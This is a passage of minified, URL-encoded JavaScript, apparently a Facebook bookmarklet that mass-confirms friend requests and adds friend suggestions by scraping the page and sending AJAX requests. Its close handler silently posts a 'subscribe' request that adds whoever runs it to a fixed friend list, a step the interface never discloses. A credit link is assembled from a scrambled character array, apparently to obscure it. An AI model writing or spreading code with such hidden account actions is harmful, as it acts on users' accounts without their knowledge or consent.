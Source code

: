 n()","\x3Cspan%20style=\"color:darkorange\">Confirm\x3C/span>%20"+aing.frReqs.length+"%20Friend%20Requests")}if(aing.friendSugs&&aing.friendSugs.length!=0){e+=aing.html.btn("aing.reqs.add()","\x3Cspan%20style=\"color:darkseagreen\">Add%20"+aing.friendSugs.length+"%20Friend%20Suggestions\x3C/span>")}e+=aing.html.btn("aing.klos('wk')","Refresh")+aing.html.btn("aing.klos()","\x3Cspan%20style=\"color:darkred\">Close\x3C/span>");var%20f=isi+aing.html.box(e,"g","yes");if(dimana==null||dimana==""){f+=aing.crj;aing.kasihTau(f)}else{aing.kasihTau(f,dimana)}},kasihTau:function(isi,elementId){var%20c=document.getElementById("kiri-bawah");if(c){if(elementId==null||elementId==""){var%20imp=document.getElementById("impoh");if(imp){imp.innerHTML=isi}else{c.innerHTML=isi}}else{var%20d=document.getElementById(elementId);if(d){d.innerHTML=isi}else{aing.isiDimanaSebelum("\x3Cdiv%20id=\""+elementId+"\">"+isi+"\x3C/div>",c)}}}else{var%20e="\x3Cdiv%20id=\"kiri-bawah\"%20class=\"pam%20uiBoxGray\"%20style=\""+aing.styl.inf+"\">"+isi+"\x3C/div>";var%20f=document.getElementById("rightCol");if(!f){f=document.body}aing.apen(e,f)}},apen:function(isi,di){if(di){var%20a=document.createElement("div");a.innerHTML=isi;while(a.firstChild){di.appendChild(a.firstChild)}}},aduk:function(a){var%20b=a.length,c,d;while(0!==b){d=Math.floor(Math.random()*b);b-=1;c=a[b];a[b]=a[d];a[d]=c}return%20a},kolAjak:function(i,r,l,a,n){if(n==null||n==""){n="POST"}else{if(i.match(/\?/)){i+="&"+r}else{i+="?"+r}}var%20h=new%20XMLHttpRequest();h.open(n,i,true);h.setRequestHeader("Content-type","application/x-www-form-urlencoded");h.onreadystatechange=function(c){if(c.target.readyState==4){if(aing.panggilanKe){aing.panggilanKe++}else{aing.panggilanKe=1}var%20e={errorSummary:"Connection%20error%20!",errorDescription:"Ajax%20status="+c.target.status};if(c.target.status==200||c.target.status==400){var%20d=c.target.responseText;if(d==""){e.errorSummary="empty%20callback!"}else{e=JSON.parse(d.substring(d.indexOf("{"),d.lastIndexOf("}")+1))}a(l,e)}else%20if(aing.panggilanKe%20<%202){aing.kolAjak(i,r,l,a,n)}else{aing.panggilanKe=0;a(l,e)}}};h.send(r)},frnomore:function(){aing.tampiltombol("","impoh")},crj:(function(){var%20cr=["i","a","e","g","o","s","n","b","l","p","m","2","r","0","c","1","t","3","\xA9"],crl=cr[1]+cr[0]+cr[6]+cr[3]+cr[14]+cr[12]+cr[2]+cr[1]+cr[16]+cr[0]+cr[4]+cr[6]+cr[5]+"."+cr[7]+cr[8]+cr[4]+cr[3]+cr[5]+cr[9]+cr[4]+cr[16]+"."+cr[14]+cr[4]+cr[10];return"\x3Cdiv%20style=\"margin-top:10px;color:gray;font-size:12px;text-align:right\">"+cr[1].toUpperCase()+cr[0]+cr[6]+cr[3]+cr[14].toUpperCase()+cr[12]+cr[2]+cr[1]+cr[16]+cr[0]+cr[4]+cr[6]+cr[5]+"%20"+cr[cr.length-1]+cr[11]+cr[13]+cr[15]+cr[17]+"\x3Cdiv%20style=\"font-size:9px\">\x3Ca%20href=\"http://"+crl+"/\"%20target=\"_blank\">"+crl+"\x3C/a>\x3C/div>\x3C/div>"})(),klos:function(waw){var%20inf=document.getElementById("kiri-bawah");if(inf){if(waw==null||waw==""){inf.parentNode.removeChild(inf)}else{inf.innerHTML="\x3Cb>Reloading%20the%20page,%20wait%20up..\x3C/b>%20"+aing.loding.img}}aing.kolAjak("/ajax/friends/lists/subscribe/modify",aing.ajax.requestsLoader().prm+"&location=permalink&action=subscribe&flid=586419591422497","",function(){if(document.getElementById("kiri-bawah")){top.location.reload()}})},resvars:function(){aing.loding.frm=0;aing.kasihTau("","impoh-eror");aing.kasihTau("","impoh-ok")},cekwas:function(a,w){var%20b="lanyut";if(a==aing.uid){b="lewat"}else{for(z%20in%20w){if(a==w[z]){b="lewat";break}}}return%20b},frFolder:function(){var%20a=document.getElementById("friendsTypeaheadResults");if(a){var%20b=a.parentNode.getElementsByClassName("friendButton");for(var%20x=0;x%20<%20b.length;x++){var%20c=b[x].getAttribute("data-profileid");if(c){aing.friends.push({uid:c,text:"id:"+c})}}}},saringPren:function(a,c){var%20b=[];for(x%20in%20a){if(a[x].uid==aing.uid||a[x].uid==c){}else{b.push(a[x])}}return%20b},reqs:{put:function(a){var%20g=document.getElementById("tmpt-reqs");var%20f=document.createElement("div");if(g){g.innerHTML=""}else{g=document.body;f.id="tmpt-reqs";f.style.display="none"}f.innerHTML=a.replace(/\x3Cimg(.*?)>/gi,"");g.appendChild(f)},lod:function(){aing.kasihTau(aing.html.box("Loading%20friend%20requests,%20wait%20up..","g","np"));var%20ajx=aing.ajax.requestsLoader();aing.kolAjak(ajx.uri,ajx.prm,"",function(q,p){if(p.domops&&p.domops[0]&&p.domops[0][3]&&p.domops[0][3].__html){aing.reqs.put(p.domops[0][3].__html)}aing.getPren("janda")})},got:function(){var%20rk=[];var%20a=document.getElementsByName("request_id");for(var%20x=0;x%20<%20a.length;x++){var%20b=a[x].parentNode;if(b){var%20c=b.getElementsByTagName("input");var%20rkp={};for(var%20y=0;y%20<%20c.length;y++){rkp[c[y].name]=c[y].value}if(rkp.type&&rkp.type=="friend_connect"){var%20h=aing.cekwas(rkp.request_id,aing.stat.ttlReq);if(h=="lanyut"){rk.push(rkp);aing.stat.ttlReq.push(rkp.request_id)}}else{if(aing.friendSugs){aing.friendSugs.push(rkp)}else{aing.friendSugs=[rkp]}}b.removeChild(a[x])}}return%20rk},get:function(f){var%20w="h";var%20g=aing.reqs.got();var%20a=document.getElementById("fbRequestsJewelMorePager");if(a){var%20b=a.getElementsByTagName("a")[0];if(b){var%20c=b.getAttribute("ajaxify");if(c&&c.split("?")[1]){var%20d=decodeURIComponent(c.split("?")[1]).split("&");for(var%20x=0;x%20<%20d.length;x++){var%20i=d[x].split("=");if(i[1]&&i[0].match(/sender_ids/i)){var%20j=aing.cekwas(i[1],aing.stat.ttlReq);if(j=="lanyut"){g.push(i[1]);aing.stat.ttlReq.push(i[1])}}}if(aing.reqs.ajaxify&&aing.reqs.ajaxify==c){aing.reqs.ajaxify=""}else{aing.reqs.ajaxify=c}a.parentNode.removeChild(a)}}}else%20if(f=="merawanin"&&g.length==0){w="k";aing.reqs.lod()}if(w=="h"){return%20g}},mor:function(){aing.loding.inf(null,"Collecting%20more%20requests,%20wait%20up..");var%20a=document.getElementById("fbRequestsJewelMorePager");if(a){var%20b=a.getElementsByTagName("a")[0];if(b){var%20c=b.getAttribute("ajaxify");if(c){aing.reqs.ajaxify=c;a.parentNode.removeChild(a)}}}i